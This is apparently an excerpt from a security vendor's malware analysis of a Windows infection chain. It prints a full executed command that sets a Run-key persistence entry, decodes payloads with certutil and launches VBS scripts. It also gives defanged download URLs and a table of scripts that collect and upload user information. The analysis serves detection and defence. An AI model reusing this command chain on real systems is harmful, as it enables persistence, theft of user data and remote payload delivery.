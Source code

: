 Executed Commandcmd, /c start /MIN REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v oeirituttvv /t REG_SZ /d “%USERPROFILE%\Links\oeirituttvv.vbs” /f & echo [Encoded command] > “%USERPROFILE%\Links\oeirituttbb.dat” & echo [Encoded command] > “%USERPROFILE%\Links\oeirituttvv.dat” & start /MIN certutil -decode “%USERPROFILE%\Links\oeirituttvv.dat” “%USERPROFILE%\Links\oeirituttvv.vbs” & start /MIN certutil -decode “%USERPROFILE%\Links\oeirituttbb.dat” “%USERPROFILE%\Links\oeirituttbb.bat” & start /MIN timeout -t 1 /nobreak & start /MIN CScript “%USERPROFILE%\Links\oeirituttvv.vbs” & start /MIN timeout -t 2 /nobreak & start /MIN CScript “%USERPROFILE%\Links\oeirituttvv.vbs

This command saves two encoded commands under “%USERPROFILE%\Links\oeirituttbb.dat” and “%USERPROFILE%\Links\oeirituttvv.dat” and saves the commands decrypted through certutil in the files oeirituttbb.vbs and oeirituttvv.bat. Afterward, it runs oeirituttbb.vbs and registers oeirituttbb.vbs to the RUN key to enable it to run continuously.

Figure 7. oeirituttbb.vbs and oeirituttvv.bat
Oeirituttbb.vbs is a runner that runs the oeirituttvv.bat file created with it. oeirituttvv.bat downloads additional malicious files through curl. Two files are downloaded: a BAT file and a CAB file.

Download URLhxxp://vndjgheruewy1[.]com/tnd/pung03.txthxxp://vndjgheruewy1[.]com/tnd/qung03.txt


Figure 8. pung03.bat and qung03.cab
The downloaded BAT file (pung03.bat) decompresses the CAB file (qung03.cab), then runs temprr03.bat. The CAB file contains a total of 6 scripts. The features of each script are outlined in Table 2.




File Name
Feature




temprr03.bat
Runs loyes03.bat


loyes03.bat
Registers to RunKey (mnasrt.vbs)Runs loyestemp03.batRuns dwpp.vbs


mnasrt.vbs
Runs loyes03.bat


loyestemp03.bat
Collects user informationRuns uwpp.vbs


dwpp.vbs
Downloads CAB


uwpp.vbs
Uploads user information



Table 2. Features of each script

The final malicious behaviors performed by this script are exfiltrating user information and downloading additional malicious files.

Figure 9. Exfiltrating user information
